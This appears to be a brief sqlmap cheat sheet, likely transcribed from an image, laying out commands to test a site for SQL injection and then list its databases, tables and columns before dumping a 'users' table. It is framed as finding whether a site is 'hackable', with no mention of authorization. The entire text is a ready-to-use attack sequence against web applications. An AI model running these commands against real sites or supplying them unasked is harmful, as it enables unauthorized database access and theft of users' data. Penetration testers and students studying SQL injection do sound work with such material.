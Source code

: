 ## Sqlmap Commands

#### #Find if Site is Hackable
$ python sqlmap.py -u "http://www.site.com/section.php?id=51"

#### #Discover Databases
$ python sqlmap.py -u "http://www.sitemap.com/section.php?id=51" --dbs

#### #Find tables in a particular database
$ python sqlmap.py -u "http://www.site.com/section.php?id=51" --tables -D safecosmetics

#### #Get columns of a table
$ python sqlmap.py -u "http://www.site.com/section.php?id=51" --columns -D safecosmetics -T users

#### #Get data from a table
$ python sqlmap.py -u "http://www.site.com/section.php?id=51" --dump -D safecosmetics -T users
